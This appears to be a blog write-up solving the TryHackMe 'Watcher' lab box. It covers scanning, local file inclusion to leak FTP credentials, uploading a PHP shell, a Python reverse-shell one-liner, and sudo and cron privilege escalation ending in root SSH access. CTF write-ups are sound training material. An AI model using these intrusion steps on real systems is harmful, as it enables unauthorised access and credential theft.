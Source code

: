 ```yaml
---
title: "Tryhackme: Watcher"
date: 2023-05-01T17:27:49+05:30
description: "THM watcher box solution"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
tocFolding: false
tocPosition: inner
tocLevels: ["h2", "h3", "h4"]
tags:
- python
- shell
series:
- tryhackme
categories:
- writeup
- boxes
image:
---
```


Start the room by going to [TryHackMe: Watcher](https://tryhackme.com/room/watcher)

### Nmap scan:
```
# Nmap 7.80 scan initiated Wed Apr 26 23:09:33 2023 as: nmap -sV -sC -oA nmap/nmap 10.10.54.168
Nmap scan report for 10.10.54.168
Host is up (0.14s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:80:ec:1f:26:9e:32:eb:27:3f:26:ac:d2:37:ba:96 (RSA)
|   256 36:ff:70:11:05:8e:d4:50:7a:29:91:58:75:ac:2e:76 (ECDSA)
|_  256 48:d2:3e:45:da:0c:f0:f6:65:4e:f9:78:97:37:aa:8a (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Jekyll v4.1.1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Corkplacemats
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Apr 26 23:09:58 2023 -- 1 IP address (1 host up) scanned in 24.59 seconds
```

### GOBuster
Do gobuster for files and check robots.txt for the files.
```
gobuster dir -u http://10.10.54.168 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt
```

### FTP
Local file inclusion to get the ftp user `ftpuser:******`:
```
http://10.10.54.168/post.php?post=secret_file_do_not_read.txt
```
now that you get the ftp user's creds use those to login and get `flag_2.txt`
After that see that you can write to `files` directory and upload `shell.php` file so that you can setup revershell.

```
http://10.10.61.151/post.php?post=/home/ftpuser/ftp/files/shell.php
```

`cd home && ls` found users:
- ftpuser
- mat
- toby
- will

```
python3 -c 'import pty; pty.spawn("/bin/bash");'
```

```
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
cp -r /home/mat/ /tmp/mat/
```


```
find / -name "flag_3.txt"
```

Test for crontabs
```
www-data@watcher:/$ crontab -l
no crontab for www-data
```

### cat /etc/passwd

```
www-data@watcher:/home/mat/scripts$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
will:x:1000:1000:will:/home/will:/bin/bash
ftp:x:111:114:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
ftpuser:x:1001:1001:,,,:/home/ftpuser:/usr/sbin/nologin
mat:x:1002:1002:,#,,:/home/mat:/bin/bash
toby:x:1003:1003:,,,:/home/toby:/bin/bash
```


```
www-data@watcher:/home/mat$ cat note.txt
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

```
www-data@watcher:/home/toby$ cat note.txt
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

```
www-data@watcher:/home/toby/jobs$ cat cow.sh
#!/bin/bash
cp /home/mat/cow.jpg /tmp/cow.jpg
```

```
www-data@watcher:/home/mat$ sudo -l
Matching Defaults entries for www-data on watcher:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on watcher:
    (toby) NOPASSWD: ALL
```


Use FTP on `/home/mat` and put `cow.jpg` to the ftp server this copies the files from mat to ftp user.

Also we have execute permissions on `/home/toby/jobs/cow.sh`

```
-rwxr-xr-x 1 toby toby   46 Dec  3  2020 cow.sh
```
Set the following reverse shell to escalate as mat using reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0", 4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

now as mat can edit the `cmd.py` file we can add a shell in the file to run bash as `will`

```
sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py
```

finally we can read the `/opt/backups/key.b64` to get the ssh key for the root user.

```
chmod 700 ~/.ssh/watcher.pub 
ssh -i ~/.ssh/watcher.pub root@ip
```

